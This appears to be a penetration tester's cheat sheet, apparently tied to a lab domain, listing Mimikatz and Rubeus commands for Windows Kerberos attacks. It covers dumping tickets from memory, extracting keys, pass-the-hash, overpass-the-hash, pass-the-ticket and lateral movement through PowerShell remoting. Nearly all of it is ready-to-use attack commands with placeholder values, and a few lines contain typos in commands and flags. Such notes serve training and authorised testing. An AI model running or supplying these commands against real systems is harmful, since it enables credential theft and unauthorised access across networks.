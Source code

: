 ### Mimikatz - Export Tickets
```cmmimikatz.exe
privilege::debug
sekurlsa::tickets /export

# Once done
dir *.kirbi
```

### Rubeus - Export Tickets
```cmd
Rubeus.exe dump /nowrap
# Option
/nowrap: Make the output easier to be copied and pasted.
```

### Pass the Key/OverPass the Hash
- Mimikatz - Extract Kerberos Keys
```cmd
sekurlsa::ekeys
```
- Mimikatz - Pass the Key/OverPass the Hash
```cmd
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:$DOMAIN /user:$USERNAME /ntlm:$HASH
```
- Rubeus - Pass the Key or OverPass the Hash
```cmd
Rubeus.exe asktgt /domain:$DOMAIN /user:$USERNAME /ae256:$HASH /nowrap
```

### Pass the ticket
- Rubeus
```cmd
# Export ticket
Rubeus.exe asktgt /domain:$DOMAIN /user:$USERNAME /rc4:$HASH /ptt
# Pass the ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
- Convert .kirbi to Base64 Format
```PowerShell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
- Pass the Ticket - Base64 Format
```bash
Rubeus.exe ptt /ticket:$STRING
```
- Mimikatz
```bash
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

---------
# Pass the ticket with PowerShell Remoting
---------------------
### Mimikattz - PowerShell Remoting with Pass the Ticket for Lateral Movement
```cmd
mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

### Rubeus - PowerShell Remoting with Pass the Ticket
- Create a sacrificial Process/logon session with Rubeus.
- This process is hidden by default. The flag /show is used to display the process
- This prevents aresure of existing TGTs for the current logon session
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
- Rubeus - Pass the Ticket for Lateral Movement
```cmd
Rubeus.exe asktgt /user:$USERNAME /domain:$DOMAIN /aes256:$HASH /ptt
```
